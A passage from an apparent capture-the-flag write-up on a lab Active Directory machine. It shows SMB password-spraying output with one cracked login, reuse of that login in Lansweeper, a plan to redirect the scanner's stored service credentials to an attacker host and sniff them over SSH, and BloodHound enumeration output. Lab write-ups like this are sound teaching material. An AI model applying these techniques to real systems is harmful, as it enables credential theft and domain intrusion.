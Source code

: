 ```bash
SMB         10.10.90.18     445    INVENTORY        [-] sweep.vl\fdav736:fdav736 STATUS_LOGON_FAILURE 
SMB         10.10.90.18     445    INVENTORY        [-] sweep.vl\jsmi791:jsmi791 STATUS_LOGON_FAILURE 
SMB         10.10.90.18     445    INVENTORY        [-] sweep.vl\hjoh690:hjoh690 STATUS_LOGON_FAILURE 
SMB         10.10.90.18     445    INVENTORY        [-] sweep.vl\svc_inventory_win:svc_inventory_win STATUS_LOGON_FAILURE 
SMB         10.10.90.18     445    INVENTORY        [-] sweep.vl\svc_inventory_lnx:svc_inventory_lnx STATUS_LOGON_FAILURE 
SMB         10.10.90.18     445    INVENTORY        [+] sweep.vl\intern:<REDACTED> <-- Cracked
```
{: .nolineno }

I used this password against the Lansweeper and it worked.

![dashboard](https://miro.medium.com/v2/resize:fit:828/format:webp/1*NQcMKS3XlmOpgNxQRSF5ug.png)

While enumerating I found something interesting.

![Scanning Credentials](https://miro.medium.com/v2/resize:fit:828/format:webp/1*IHdCUD-NkfwaKa-_WyKy8w.png)

Under scanning credentials tab. The `svc_inventory_lnx` user is being used to scan the targets and his credentials as well ;). We can point the scan to our machine and use a SSH sniffing tool to capture the plain text credentials.

But before we do that let’s check if taking over this user will result us anything extra on the domain that we can abuse further. Let’s use [bloodhound-python](https://www.kali.org/tools/bloodhound.py/) for this.

```bash
/home/daffy/Documents/Raw 10.8.3.192 # bloodhound-python -u 'intern' -p '<REDACTED>' -d sweep.vl -c all --zip -ns 10.10.90.18
INFO: Found AD domain: sweep.vl
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (inventory.sweep.vl:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: inventory.sweep.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: inventory.sweep.vl
INFO: Found 17 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: inventory.sweep.vl
INFO: Done in 00M 32S
INFO: Compressing output into 20241008124126_bloodhound.zip
```
{: .nolineno }
